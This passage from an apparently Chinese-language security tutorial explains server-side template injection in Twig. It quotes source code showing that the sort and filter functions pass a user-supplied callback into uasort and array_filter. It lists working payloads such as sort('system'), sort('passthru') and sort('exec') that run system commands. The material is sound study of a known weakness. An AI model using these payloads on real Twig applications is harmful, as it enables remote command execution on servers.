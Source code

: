 ```php
    return $array;
}
```

> 从源码中可以看到，`$array` 和 `$arrow` 直接被 `uasort` 函数调用，由于 `uasort` 函数可以使用用户自定义的比较函数对数组中的元素按键值进行排序，如果自定义一个危险函数将造成代码执行或命令执行

<img src="./images/2.png" alt="">

> Payload

```php
{{["calc", 0]|sort("system")}}
{{["calc", 0]|sort("passthru")}}
{{["calc", 0]|sort("exec")}}    // 无回显
```

### filter 过滤器
> 这个 filter 过滤器使用箭头函数来过滤序列或映射中的元素，箭头函数用于接收序列或映射的值

```php
{% set lists = [34, 36, 38, 40, 42] %}
{{ lists|filter(v => v > 38)|join(', ') }}

// Output: 40, 42
```

> 类似于 map，模板编译的过程中会进入 `twig_array_filter` 函数，这个 `twig_array_filter` 函数的源码如下

```php
function twig_array_filter($array, $arrow)
{
    if (\is_array($array)) {
        return array_filter($array, $arrow, \ARRAY_FILTER_USE_BOTH);    // $array 和 $arrow 直接被 array_filter 函数调用
    }

    // the IteratorIterator wrapping is needed as some internal PHP classes are \Traversable but do not implement \Iterator
    return new \CallbackFilterIterator(new \IteratorIterator($array), $arrow);
}
```

> 从源码中可以看到 `$array` 和 `$arrow` 直接被 `array_filter` 函数调用，`array_filter` 函数可以用回调函数过滤数组中的元素，如果自定义一个危险函数将造成代码执行或命令执行

<img src="./images/3.png" alt="">
